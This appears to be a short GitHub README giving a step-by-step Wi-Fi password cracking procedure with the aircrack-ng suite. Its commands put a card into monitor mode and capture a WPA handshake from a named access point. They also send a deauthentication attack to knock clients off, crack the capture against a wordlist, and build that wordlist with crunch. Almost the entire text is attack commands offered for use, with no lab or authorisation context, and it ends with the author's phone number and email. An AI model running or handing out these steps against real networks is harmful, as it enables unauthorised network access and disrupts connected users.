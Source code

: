 # wifi-cracking-dictionary-attack-
1.airmon-ng (to know status of N/W) 2.airmon-ng start wlan0 (to enable monitor mode) 3.airodump-ng wlan0mon (list of networks) 4.airodump-ng -c 11 --bssid 44:D4:E0:5D:3C:AD -w /root/1 wlan0mon (capture handshake) 5.aireplay-ng -0 10 -a 44:D4:E0:5D:3C:AD wlan0mon (to capure handshake) 6.aircrack-ng -w 1.lst 1-01.cap (dictionary matching)  ------------------------------------------------------- to create dictionary ------------------------------------------------------- crunch 3 3 -t %%% -o 1.lst      by:rkpworld  contact:9915519712 email:rkplpuncc@gmail.com 
